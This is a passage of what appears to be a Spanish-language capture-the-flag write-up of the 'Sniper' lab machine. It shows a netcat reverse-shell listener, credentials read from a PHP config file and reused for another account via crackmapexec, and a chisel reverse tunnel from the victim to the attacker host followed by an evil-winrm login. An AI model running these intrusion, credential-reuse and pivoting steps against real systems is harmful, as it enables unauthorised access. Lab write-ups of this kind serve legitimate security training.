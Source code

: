 ```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.151] 49712
Windows PowerShell running as user SNIPER$ on SNIPER
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\inetpub\wwwroot\blog>
`` 

Un archivo contiene credenciales de acceso a la base de datos

```null
PS C:\inetpub\wwwroot\user> type db.php
<?php
// Enter your Host, username, password, database below.
// I left password empty because i do not set password on localhost.
$con = mysqli_connect("localhost","dbuser","36mEAhz/B8xQ~2VM","sniper");
// Check connection
if (mysqli_connect_errno())
  {
  echo "Failed to connect to MySQL: " . mysqli_connect_error();
  }
?>
```

Se reutiliza para el usuario Chris

```null
crackmapexec smb 10.10.10.151 -u 'Chris' -p '36mEAhz/B8xQ~2VM'
SMB         10.10.10.151    445    SNIPER           [*] Windows 10.0 Build 17763 x64 (name:SNIPER) (domain:Sniper) (signing:False) (SMBv1:False)
SMB         10.10.10.151    445    SNIPER           [+] Sniper\Chris:36mEAhz/B8xQ~2VM 
```

Utilizo el chisel para traerme el ```winrm```

En mi máquina creo el servidor

```null
chisel server -p 1234 --reverse
```

Desde la máquina víctima me conecto

```null
PS C:\Temp> .\chisel.exe client 10.10.16.4:1234 R:socks
```

Me conecto pasando por ```proxychains```

```null
proxychains evil-winrm -i localhost -u 'Chris' -p '36mEAhz/B8xQ~2VM'
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Chris\Documents> 
```
